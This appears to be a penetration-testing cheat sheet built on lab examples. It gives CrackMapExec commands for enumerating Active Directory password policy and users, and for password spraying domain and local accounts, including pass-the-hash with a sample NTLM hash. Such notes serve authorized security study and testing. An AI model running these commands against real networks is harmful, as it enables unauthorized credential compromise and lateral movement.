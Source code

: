 -- -
Can be used outside of an AD context but generally used in an AD context. 
#### Enumerating AD Password Policy
Requires you have valid credentials first.
```bash
crackmapexec smb <ip> -u <user> -p <passwd> --pass-pol
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```

^016942

#### Enumerating valid domain users w/o credentials
```bash
crackmapexec smb <dc ip> --users
crackmapexec smb 172.16.5.5 --users
```

^99029f

#### Password Spray
###### AD Domain Password spray
Password spray domain accounts
```bash
# Use grep to filter out only successful attempts
# generic domain spray
sudo crackmapexec smb <dc ip> -u <userlist> -p <passwd> | grep +

# specific domain spray
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

# verify found credentials example:
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```

^4d0ec2

###### Local account password spray
Password spray local accounts on the systems in the CIDR range. Local accounts **not** domain accounts. 
```bash
# Note: This method is LOUD, so don't use if you need to be evasive
# generic w/ hash
sudo crackmapexec smb --local-auth <cidr range> -u <username> -H <passwd hash> | grep +

#generic w/ password
sudo crackmapexec smb --local-auth <cidr range> -u <username> -p <passwd> | grep +

# specific w/ hash
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

^cc2b19
